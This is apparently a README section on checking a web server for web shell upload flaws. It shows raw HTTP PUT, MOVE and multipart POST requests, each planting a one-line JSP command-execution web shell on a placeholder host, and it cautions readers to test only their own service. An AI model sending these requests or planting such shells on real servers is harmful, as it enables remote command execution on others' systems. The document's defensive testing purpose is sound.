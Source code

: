 
## 2. How to check vulnerability
#### Caution
* **It may be problematic even if unauthorized users perform verification operations on third-party web services, not attacks. Please use the test only to verify your service.**

### 2.1. HTTP Method(PUT, DELETE)
* The above HTTP method, which is commonly used in the RestFul service, can be created / deleted. If methods other than GET and POST are not allowed, they are safe.

#### HTTP Method(PUT)

```
PUT /upload/image/ws.jsp HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:30.0) Gecko/20100101 Firefox/30.0
Host: target.com
Connection: Keep-Alive
Content-type: text/html
Content-Length:  60
 
<%Runtime.getRuntime().exec(request.getParameter(“cmd”));%>
```

* Files such as COPY and MOVE are dangerous methods because they can change the path or name of existing files.
#### HTTP Method(MOVE)

```
Move /upload/image/ws.jpg HTTP/1.1
Destination : http://target.com/upload/image/ws.jsp
Host : target.com
```

### 2.2. File Upload Function
* Upload files using the normal file upload function (such as multipart). If a file with an extension that can be interpreted by the web server is not uploaded, it is safe.

#### HTTP Method(MOVE)

```
POST /upload/upload.jsp HTTP/1.1
Host: target.com
Connection: keep-alive
Content-Length: 230
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.153 Safari/537.36
Content-Type: multipart/form-data;
boundary=----WebKitFormBoundaryWvkRmVFj2ApPGgKi
Accept-Encoding: gzip,deflate,sdch

 
------WebKitFormBoundaryWvkRmVFj2ApPGgKi
Content-Disposition: form-data;name="Filedata"; filename="ws.jsp"
Content-Type: text/html
 
<%Runtime.getRuntime().exec(request.getParameter(“cmd”));%>
```
